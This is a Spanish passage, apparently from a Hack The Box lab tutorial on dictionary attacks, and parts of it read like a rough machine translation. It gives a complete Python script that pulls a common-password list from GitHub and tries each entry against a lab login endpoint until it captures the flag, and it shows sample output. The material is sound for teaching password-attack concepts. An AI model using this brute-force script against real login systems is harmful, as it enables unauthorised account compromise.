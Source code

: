 La aplicación de instancia crea una ruta (`/diccionario`) que maneja las solicitudes posteriores. Espera un parámetro `contraseña` en los datos de formulario de la solicitud. Al recibir una solicitud, compara la contraseña enviada con el valor esperado. Si hay una coincidencia, responde con un objeto JSON que contiene un mensaje de éxito y el indicador. De lo contrario, devuelve un mensaje de error con un código de estado 401 (no autorizado).

Copie y pegue este script de Python a continuación como`dictionary-solver.py`en tu máquina. Solo necesita modificar las variables IP y puerto para que coincidan con la información de su sistema de destino.

Código:pitón

```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```

El guión de Python orquesta el ataque del diccionario. Realiza los siguientes pasos:

1. `Downloads the Wordlist`: Primero, el script obtiene una lista de palabras de 500 comúnmente utilizadas (y por lo tanto débiles) contraseñas de las cecarias utilizando el`requests`biblioteca.
2. `Iterates and Submits Passwords`: Luego itera a través de cada contraseña en la lista de palabras descargada. Para cada contraseña, envía una solicitud de publicación a la aplicación Flask`/dictionary`punto final, incluida la contraseña en los datos del formulario de la solicitud.
3. `Analyzes Responses`: El script verifica el código de estado de respuesta después de cada solicitud. Si son 200 (OK), examina aún más el contenido de respuesta. Si la respuesta contiene la tecla "Bandera", significa un inicio de sesión exitoso. El script luego imprime la contraseña descubierta y la bandera capturada.
4. `Continues or Terminates`: Si la respuesta no indica el éxito, el script procede a la siguiente contraseña en la lista de palabras. Este proceso continúa hasta que se encuentra la contraseña correcta o se agota la lista de palabras completa.

  Ataques de diccionario

```shell-session
xnoxos@htb[/htb]$ python3 dictionary-solver.py

...
Attempted password: turtle
Attempted password: tiffany
Attempted password: golf
Attempted password: bear
Attempted password: tiger
Correct password found: ...
Flag: HTB{...}
```